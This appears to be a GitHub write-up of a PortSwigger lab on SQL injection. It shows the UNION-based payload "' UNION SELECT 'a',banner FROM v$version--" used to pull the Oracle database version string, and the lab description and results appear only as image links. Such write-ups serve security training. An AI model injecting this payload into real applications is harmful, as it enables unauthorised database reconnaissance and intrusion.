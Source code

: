 ## Lab Descriptions:

<img width="865" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/73b3aaff-3d68-4dd1-8b67-4684dd585810">

## Solution:

The SELECT version FROM v$instance only returns the version number, the first one, SELECT banner FROM v$version, returns the full version string that is requested.

Therefore We need to inject ' UNION SELECT 'a',banner FROM v$version-- to obtain the version information with the following query:

```SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',banner FROM v$version--'```

<img width="1271" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c8914e0c-99c9-4d23-acd2-2016750e1fbe">


## Result:

<img width="1260" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/5ec3bdc7-a139-4aea-9842-4504946b8bfb">


